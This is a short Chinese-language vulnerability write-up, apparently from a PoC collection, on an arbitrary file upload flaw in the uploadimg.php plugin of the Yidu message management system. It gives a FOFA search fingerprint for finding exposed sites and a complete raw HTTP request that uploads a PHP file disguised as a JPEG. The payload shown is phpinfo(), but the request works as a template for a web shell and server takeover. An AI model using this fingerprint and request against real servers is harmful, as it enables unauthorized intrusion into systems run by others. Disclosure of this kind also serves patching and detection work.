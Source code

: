 ## 亿渡留言管理系统uploadimg存在任意文件上传漏洞

亿渡留言管理系统uploadimg存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

## fofa

```
body="/images/logo/logo140x38.png"
```

## poc

```yaml
POST /plugins/upload/uploadimg.php?fp=upimg HTTP/1.1
Host: 
Content-Length: 197
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypvPqblfrUine6bl3
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: userid=1; PHPSESSID=ov8kb5g3n4gng3lfskbnpbch37; Hm_lvt_448f02fca78a892e6d9c5f1c599ff906=1711623626; Hm_lpvt_448f02fca78a892e6d9c5f1c599ff906=1711623626
Connection: close

------WebKitFormBoundarypvPqblfrUine6bl3
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarypvPqblfrUine6bl3--
```

![image-20240707203825373](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072038514.png)
